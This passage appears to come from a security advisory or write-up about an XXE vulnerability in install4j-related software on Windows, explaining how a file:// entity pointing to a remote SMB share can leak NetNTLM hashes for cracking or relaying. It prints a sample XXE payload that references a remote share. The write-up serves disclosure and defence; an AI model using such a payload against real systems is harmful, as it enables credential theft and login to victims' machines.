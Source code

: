 Other XXE attack vectors are possible as well. Since this is a Windows system, we could create XXE payloads with `file://` protocol handlers. Defining a remote network share could then lead to leakage of hashed Windows server credentials (NetNTLM hash).
These hashes could be cracked (or relayed) and used to directly login into the victim machines etc.

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE data SYSTEM "file:////downloads.prosysopc.com/myshare/file.dll">
<data>&send;</data>
```

![install4j_3.png](/assets/images/install4j/install4j_3.png)
